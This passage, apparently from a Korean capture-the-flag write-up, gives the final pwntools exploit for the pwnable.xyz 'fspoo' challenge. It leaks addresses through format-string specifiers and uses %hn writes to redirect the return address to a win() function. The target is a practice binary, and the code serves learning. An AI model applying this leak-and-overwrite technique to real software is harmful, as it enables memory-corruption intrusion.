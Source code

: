 
최종 익스플로잇은 다음과 같다.

```python
# exploit_fspoo.py

from pwn import *

# r = process("./fspoo")
r = remote("svc.pwnable.xyz", 30010)

def Edit(Name):
    r.recvuntil("> ")
    r.sendline("1")
    r.recvuntil("Name: ")
    r.send(Name)

def Prep():
    r.recvuntil("> ")
    r.sendline("2")

def Print():
    r.recvuntil("> ")
    r.sendline("3")

def Exit():
    r.recvuntil("> ")
    r.sendline("0")

r.recvuntil("Name: ")
r.sendline("A" * 0x19 + "%11$p")

Prep()
PIEbase = int(r.recvline()[2:-1], 16) - 0xa77 # address of PIE base
addr_win = PIEbase + 0x9fd # address of win()
log.info("address of win(): " + hex(addr_win))
addr_cmd = PIEbase + 0x2040 # address of variable 'cmd'
log.info("address of variable 'cmd': " + hex(addr_cmd))

Edit("A" * 0x19 + "%10$p")
Prep()
addr_ret = int(r.recvline()[2:-1], 16) - 0xc # address where return address is on
log.info("return address is on " + hex(addr_ret))

writable = addr_cmd + 0xc0 # address of writable memory
log.info("address of writable memory: " + hex(writable))

Edit("A" * 0x19 + "B%6$hn")
r.recvuntil("> ")
r.sendline(str(writable + 0x2))

for i in range(0x26, 0x30):
    r.recvuntil("> ")
    r.sendline(str(addr_cmd + i))

addr_win_low = int(hex(addr_win)[6:], 16) # low 2byte of address of win()

r.recvuntil("> ")
r.sendline(str(writable + 0x1))
r.recvuntil("Name: ")
r.send("%" + str(addr_win_low - 0x19) + "x%6$hn")

r.recvuntil("> ")
r.sendline("-" + str(0x100000000 - addr_ret))

```